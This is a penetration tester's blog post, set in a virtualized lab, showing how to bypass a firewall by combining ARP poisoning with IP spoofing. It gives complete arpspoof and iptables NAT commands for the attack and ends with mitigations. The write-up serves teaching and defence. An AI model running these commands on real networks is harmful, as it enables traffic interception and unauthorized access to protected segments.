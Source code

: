 ```yaml
---
layout: post
date:   2019-10-28 16:00:00 +0200
categories: pentest
description: "A specific case of bypassing a firewall"
title:  "Combining ARP poisoning and IP spoofing to bypass firewalls"
---
```

# Introduction
Recently a colleague of mine and I had to test if there was a way to gain access to a specific network segment (let's call it SecNet) from another network (BadNet). Of course the most basic attempts with ping and port scanning failed, because the firewall blocked everything that came from our segment, so we had to find a way to bypass the firewall. 

One of the devices available in BadNet was a DNS server and this server was configured as the primary DNS in the DHCP settings. We also confirmed that other networks also used this server as their DNS, thus our hypothesis was that maybe the devices from SecNet also used the same server as their DNS. If that was the case and the firewall wasn't configured to be restrictive enough, then the DNS server should have access to the SecNet network.

To confirm this we used ARP poisoning attack to do a man-in-the-middle (MITM) between the DNS and the gateway to see if traffic from SecNet reaches the DNS in BadNet.  
It did. 

Then we had to find a way to exploit this in order to reach SecNet. If we only spoofed our IP address, the return traffic would've been routed to the DNS server and we wouldn't be able to receieve it. If we poisoned the ARP table of the gateway and pretended that our host was the DNS server, then the hosts from other networks wouldn't be able to reach it and with this we would introduce a denial of service, which was not acceptable. Exploiting the server was out of scope. The only solution was to spoof our IP while simultaneously doing MITM as this would give us the opportunity to receive the return traffic of the spoofed requests. 

Because we faced some problems implementing such attack and Google wasn't helpful in finding solutions to those problems, I decided to explain what we did in this blog post.

Disclaimer:  
The technique for marking the spoofed packets is not my idea. I think I saw it in a tool for bypassing 802.1x, but I can't remember which one.

# Network Topology
The network topology of my virtualized environment for the demonstration.

SecNet: 172.16.3.0/24  
SecNet Sensitive Host: 172.16.3.10  
BadNet: 172.16.2.0/24  
BadNet DNS server: 172.16.2.10  
BadNet Hacker: 172.16.2.20  
Firewall: 172.16.2.2  
Firewall: 172.16.3.2   

![net_diag_1.png](/images/firewall_bypass/net_diag_1.png)  

In this environment the firewall is a Linux VM with a simple iptables rule which drops everything except traffic to and from the DNS server (172.16.2.10). 
Let's test it with a simple ping:  
![ping_test.PNG](/images/firewall_bypass/ping_test.PNG)

# The Attack
There are many guides which explain how to achieve MITM with ARP poisoning, so I won't spend much time on this.
One of the first things you should do is enable routing on your host, otherwise the packets won't be redirected to the victim.
This is easily achieved with the following command:

```bash
sysctl net.ipv4.ip_forward=1
```

For the actual ARP poisoning I used the arpspoof tool:
```bash
arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2

# -i Interface
# -t Target IP
# -r Gateway IP
```

With this we've achieved MITM. The diagram below shows how the traffic flows from source to destination:  
![net_diag_2.png](/images/firewall_bypass/net_diag_2.png)

Right now if we spoof our IP and try to access SecNet the return traffic will be routed back to the DNS server which in turn will respond with TCP RST and terminate the session. This behavior is shown below:  
![net_diag_3.png](/images/firewall_bypass/net_diag_3.png)

To solve this problem we need to
* Tag our spoofed traffic somehow
* Don't route the response of the tagged (spoofed) traffic
* Accept the tagged traffic as if it was destined to the attacker's host

To tag the spoofed packets we could use the source tcp ports. Windows and Linux use specific port ranges for the source ports when initiating a new connection.
For Windows this can be found with the command:
```
netsh int ipv4 show dynamicport tcp
```

On my windows 10 machine the output from the above command is:
```
Protocol tcp Dynamic Port Range
---------------------------------
Start Port      : 49152
Number of Ports : 16384
```

Which means that in Windows 10 the source port range is 49152 - 65536.


On linux you can check with:
```bash
sysctl net.ipv4.ip_local_port_range
```

On my Kali the result is:
```
net.ipv4.ip_local_port_range = 32768	60999
```

We can use source ports from a range which is not used by our target to tag our spoofed traffic. If it's a windows host, we can use ports outside the range 49152 - 65536 and if it's a Linux host - source ports outside the 32768 - 60999 range,

If we don't know the OS of the target, we can use a source port range different than the combination of both ranges. In this demonstration I'll assume that we don't know the OS of the target.

1. The IP spoofing of the outgoing packets can be done with iptables and a NAT rule. The NAT rule would also change the source port range.  
2. Another NAT rule would look for a specific destination IP and destination port range in order to identify the incoming packets which are in response to the spoofed traffic. The destination IP will be changed to the local IP of the interface and the port range will be restored. That way the response to our spoofed traffic will be routed to the local host.  


The diagram below shows how traffic is handled by the interface in this configuration:  
![netfilter.png](/images/firewall_bypass/netfilter.png)

And the result would be:  
![net_diag_4.png](/images/firewall_bypass/net_diag_4.png)

To implement the tagging we need to choose the source port range first. Because I assume the OS of the target is unknown, then the ports should differ from both the Windows and Linux ranges. I chose to use 20000 - 30000.
Because this range has different size (10000) than the port range of my Kali (28231) I wasn't sure if this could lead to problems, so I also changed the source port range of the attacker host from 32768 - 60999 to 40000 - 50000.

The following commands are everything you need to accomplish all of this.
```bash
# Enable routing
sysctl net.ipv4.ip_forward=1

# Change the source port range of the attacker host
echo "40000 50000" > /proc/sys/net/ipv4/ip_local_port_range

# The outgoing packets sourced by the attacker's host (their source 
# IP is 172.16.2.20) have their source IP changed to the target 
# IP (172.16.2.10) and the source port range moved to another range.
# 
# This basically tags the outgoing traffic by spoofing the IP 
# and modifying the source ports.
iptables -t nat -A POSTROUTING -s 172.16.2.20/32 -o eth0 -p tcp -j SNAT --to-source 172.16.2.10:20000-30000

# Incoming traffic which has the target host as it's destination (172.16.2.10)
# and has destination port in the range of 20000:30000 is changed to the 
# attacker IP (172.16.2.20) and the port range is restored to 40000:50000.
# 
# This basically identifies the response of the spoofed traffic and changes
# it in order to be routed to the attacker's host.
iptables -t nat -A PREROUTING -d 172.16.2.10/32 -i eth0 -p tcp -m tcp --dport 20000:30000 -j DNAT --to-destination 172.16.2.20:40000-50000

# Start the MITM attack
sudo arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2
```

Now when we test the connection to the host in the SecNet segment, a successful TCP session is established:  
![arpspoof_test.PNG](/images/firewall_bypass/arpspoof_test.PNG)

The firewall is successfully bypassed! This means it's possible to launch port scans and interact with the services in the SecNet segment!

Some recommendations to prevent such attacks are:
* Use Dynamic ARP Inspection to protect from arp poisoning
* Use IP Source Guard to prevent IP spoofing
* Harden your firewall rules and permit only the necessary ports on your firewalls

# References:
[1] [https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port](https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port)
